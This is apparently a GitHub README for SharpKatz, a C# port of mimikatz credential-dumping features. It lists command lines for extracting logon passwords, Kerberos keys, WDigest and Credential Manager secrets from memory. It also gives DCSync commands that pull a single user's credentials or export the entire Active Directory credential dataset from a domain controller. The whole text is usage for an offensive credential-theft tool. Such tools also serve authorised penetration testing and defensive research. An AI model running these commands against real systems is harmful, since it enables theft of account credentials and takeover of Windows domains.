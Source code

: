# SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync

**Usage**

Ekeys

```SharpKatz.exe --Command ekeys```

Msv

```SharpKatz.exe --Command msv```

Kerberos

```SharpKatz.exe --Command kerberos```

Tspkg

```SharpKatz.exe --Command tspkg```

Credman

```SharpKatz.exe --Command credman```

Wdigest

```SharpKatz.exe --Command wdigest```

Logonpasswords

```SharpKatz.exe --Command logonpasswords```

DCSync

```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc```<br>
Retrive user credential by username <br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```<br>
Retrive user credential by GUID <br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc```<br>
Export the entire dataset from AD
